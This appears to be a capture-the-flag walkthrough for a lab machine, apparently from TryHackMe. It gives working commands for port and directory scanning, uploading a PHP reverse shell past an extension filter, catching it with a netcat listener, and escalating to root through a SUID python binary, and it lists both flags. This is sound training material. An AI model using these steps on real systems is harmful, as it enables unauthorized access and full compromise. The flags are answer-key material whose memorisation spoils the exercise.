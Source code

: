 ### Scan the machine, how many ports are open?
```BASH
nmap -sV -p- 10.10.181.86
```
![image](https://github.com/user-attachments/assets/f2ec4d43-4cd6-441b-86b2-0cc4f762f78d)

<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What version of Apache is running?
<pre>2.4.29</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service is running on port 22?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the hidden directory?
```BASH
gobuster dir -u "http://10.10.181.86/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/f95da17f-b7b8-4ef8-a102-8922558fa8ea)

<pre>/panel/</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Find a form to upload and get a reverse shell, and find the flag.
Download reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
Change default ip address and port to your ip address and port `4444`

![image](https://github.com/user-attachments/assets/ac128c0d-4ce4-4ee1-90bf-309049d10339)  

Save as shell.phtml, because there is extension filter in input. Start a listener.
```BASH
nc -lvnp 4444
```

<span style="line-height:0.5;">&nbsp;</span>

Go to `http://10.10.181.86/uploads/shell.phtml?cmd=id` to run script.  

![image](https://github.com/user-attachments/assets/ebd1503a-c6a9-447f-9173-4a1f24ab03cc)

<span style="line-height:0.5;">&nbsp;</span>

Once the shell is triggered, upgrade the session.
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<span style="line-height:0.5;">&nbsp;</span>

Run find command to search for user.txt flag.
```BASH
find / -name user.txt 2>/dev/null
```
![image](https://github.com/user-attachments/assets/d91a1700-6b91-4864-ae00-075bebb53648)

<pre>THM{y0u_g0t_a_sh3ll}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Search for files with SUID permission, which file is weird?
Run the SUID file search.
```BASH
find / -perm -4000 -type f 2>/dev/null
```
![image](https://github.com/user-attachments/assets/162ac3c0-9fa4-4aff-8da9-413b02e1b9ab)

The weird SUID file is: 
<pre>/usr/bin/python</pre>

### root.txt
To escalate privillages run:
```BASH
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/f583a3f6-99d0-474e-bae5-35cef85b45d8)

Run find command to search for root.txt flag.
```BASH
find / -name root.txt 2>/dev/null  
```
![image](https://github.com/user-attachments/assets/3bb6a472-e25f-43cc-8848-ac1a7a61ec48)

<pre>THM{pr1v1l3g3_3sc4l4t10n}</pre>


